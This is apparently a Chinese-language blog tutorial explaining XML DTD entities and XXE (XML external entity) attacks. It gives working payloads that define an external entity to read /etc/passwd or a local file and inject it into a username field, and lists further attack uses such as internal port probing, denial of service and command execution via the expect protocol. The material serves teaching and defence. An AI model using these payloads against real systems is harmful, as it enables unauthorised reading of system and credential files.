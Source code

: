 

## 实体

声明DTD的实体语法，我们可以修改或者定义XML中的内容，来达到想要的目的，这也是XXE攻击的由来的原因，常见的手法有两种：自定义内部实体和自定义外部实体
DTD的实体声明语法如下：

```javascript
<!ENTITY 实体名称　实体內容> //实体名称和实体内容均可以自定义
```



### 自定义内部实体

可以修改xml文档中的内容

```javascript
<!DOCTYPE user[<!ENTITY myentity "aa">]>
```

```javascript
<user><username>&myentity;</username><password>hh</password></user>
//这里引用了一个实体名称myentity，需要在标签里用 &实体名称; 引用它
```

![](https://img-blog.csdnimg.cn/img_convert/e45c4db3a57601c8d0f6884dfd524733.png)

### 自定义外部实体

可以引用外部资源到实体中

```javascript
<!DOCTYPE user[<!ENTITY myentity SYSTEM "file:///etc/passwd">]>
//命名了一个叫myentity的实体，SYSTEM的作用是获取外部资源并将其存储在myentity实体中
```

```javascript
<user><username>&myentity;</username><password>hh</password></user>
//调用了myentity实体
```

可以看见成功的读取到了敏感文件
![](https://img-blog.csdnimg.cn/img_convert/adfd3e1b03d14c4261292f1cc01952aa.png)

## 攻击层面

由于自定义外部实体有着可以引用外部资源的功能,SYSTEM后面的url分为以下几种方式，利用协议攻击
![](https://img-blog.csdnimg.cn/img_convert/b98032c0d70d80c7f3ff9f38b7c49c19.png)
![](https://img-blog.csdnimg.cn/img_convert/1de517877446a01cee493d178769f9db.png)
基本可以达到和SSRF一样的效果，探测内网端口(http/https)，DDOS，读取任意文件(file)，命令执行(expect)等

### 读取文件

```javascript
<?xml version = "1.0"?>
<!DOCTYPE user [
<!ENTITY xxe SYSTEM "file:///e://test.txt">
]>
<x>&xxe;</x>
```
